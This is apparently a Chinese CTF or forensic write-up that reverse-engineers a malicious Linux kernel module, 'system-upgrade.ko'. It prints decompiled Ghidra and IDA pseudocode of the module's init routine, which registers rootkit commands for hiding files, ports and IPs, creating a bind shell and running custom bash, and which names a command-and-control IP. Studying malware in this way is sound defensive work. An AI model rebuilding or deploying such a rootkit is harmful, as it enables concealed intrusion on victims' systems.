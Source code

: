 逆向`system-upgrade.ko`文件，找到`strings`窗口，发现有一个IP是`192.168.57.203`，然后可以找到文件的主体函数，虽然反汇编后得到的是经过混淆的伪代码，但还是通过分析逻辑来获得一些有用可靠的信息

```c
void ULRYvXzICzy880dO(void)

{
  Cr8YeLCPy17g2Kqp();
  vH5iRF4rBcsPSxfk();
  QODpPLbPPLRtk397();
  ZRzAVZZOp3EIPba6(&DAT_00102750);
  XnzbhEaPnydxn1rY("HIDEME",ZRzAVZZOp3EIPba6);
  XnzbhEaPnydxn1rY("SHOWME",bbiVzCN8llELLp6o);
  XnzbhEaPnydxn1rY("HIDE_DENT",Fmk3MFLuFCEiNxgN);
  XnzbhEaPnydxn1rY("SHOW_HIDDEN_DENT",PiCa2rGqFOVs1eiB);
  XnzbhEaPnydxn1rY("HIDE_TCP_PORT",IDZO4NzptW8GaHzj);
  XnzbhEaPnydxn1rY("SHOW_HIDDEN_TCP_PORT",ol186ifyeUPhXKNl);
  XnzbhEaPnydxn1rY("HIDE_TCP_IP",H7XMCPIhJup38DuP);
  XnzbhEaPnydxn1rY("SHOW_HIDDEN_TCP_IP",yiA2lg0kW8v2vOp0);
  XnzbhEaPnydxn1rY("HIDE_UDP_PORT",cuC5zWc4iL4kPgAn);
  XnzbhEaPnydxn1rY("SHOW_HIDDEN_UDP_PORT",LC22j9OZfANw81M7);
  XnzbhEaPnydxn1rY("HIDE_UDP_IP",YlfqRhWLKVqMFbxN);
  XnzbhEaPnydxn1rY("SHOW_HIDDEN_UDP_IP",XBKrkXaghfenXrk6);
  XnzbhEaPnydxn1rY("BINDSHELL_CREATE",NVEKPqx35kIvfacV);
  XnzbhEaPnydxn1rY("RUN_CUSTOM_BASH",T34Z94ahif0BXQRk);
  Fmk3MFLuFCEiNxgN("systemd-agentd");
  Fmk3MFLuFCEiNxgN("system-upgrade");
  Fmk3MFLuFCEiNxgN("system_upgrade");
  IDZO4NzptW8GaHzj(&DAT_0010284c);
  IDZO4NzptW8GaHzj(&DAT_00102851);
  H7XMCPIhJup38DuP("192.168.57.203");
  H7XMCPIhJup38DuP("127.0.0.1");
  cuC5zWc4iL4kPgAn(&DAT_00102865);
  YlfqRhWLKVqMFbxN("127.0.0.1");
  return;
}
```

上面部分是ghidra的反汇编分析结果，我们使用ghidra的话也可以深入对函数进行交叉调用分析来获得通信的端口号，但若是用ida反汇编的话可以直接得出端口

```c
__int64 __fastcall ULRYvXzICzy880dO(__int64 a1)
{
    _fentry__(a1);
    Cr8YeLCPy17g2Kqp(a1);
    vH5iRF4rBcsPSxfk(a1);
    QODpPLbPPLRtk397(a1);
    ZRzAVZZOp3EIPba6();
    XnzbhEaPnydxn1rY((__int64)"HIDEME", (__int64)ZRzAVZZOp3EIPba6);
    XnzbhEaPnydxn1rY((__int64)"SHOWME", (__int64)bbiVzCN8llELLp6o);
    XnzbhEaPnydxn1rY((__int64)"HIDE_DENT", (__int64)Fmk3MFLuFCEiNxgN);
    XnzbhEaPnydxn1rY((__int64)"SHOW_HIDDEN_DENT", (__int64)PiCa2rGqFOVs1eiB);
    XnzbhEaPnydxn1rY((__int64)"HIDE_TCP_PORT", (__int64)IDZO4NzptW8GaHzj);
    XnzbhEaPnydxn1rY((__int64)"SHOW_HIDDEN_TCP_PORT", (__int64)ol186ifyeUPhXKNl);
    XnzbhEaPnydxn1rY((__int64)"HIDE_TCP_IP", (__int64)H7XMCPIhJup38DuP);
    XnzbhEaPnydxn1rY((__int64)"SHOW_HIDDEN_TCP_IP", (__int64)yiA2lg0kW8v2vOp0);
    XnzbhEaPnydxn1rY((__int64)"HIDE_UDP_PORT", (__int64)cuC5zWc4iL4kPgAn);
    XnzbhEaPnydxn1rY((__int64)"SHOW_HIDDEN_UDP_PORT", (__int64)LC22j9OZfANw81M7);
    XnzbhEaPnydxn1rY((__int64)"HIDE_UDP_IP", (__int64)YlfqRhWLKVqMFbxN);
    XnzbhEaPnydxn1rY((__int64)"SHOW_HIDDEN_UDP_IP", (__int64)XBKrkXaghfenXrk6);
    XnzbhEaPnydxn1rY((__int64)"BINDSHELL_CREATE", (__int64)NVEKPqx35kIvfacV);
    XnzbhEaPnydxn1rY((__int64)"RUN_CUSTOM_BASH", (__int64)T34Z94ahif0BXQRk);
    Fmk3MFLuFCEiNxgN("systemd-agentd");
    Fmk3MFLuFCEiNxgN("system-upgrade");
    Fmk3MFLuFCEiNxgN("system_upgrade");
```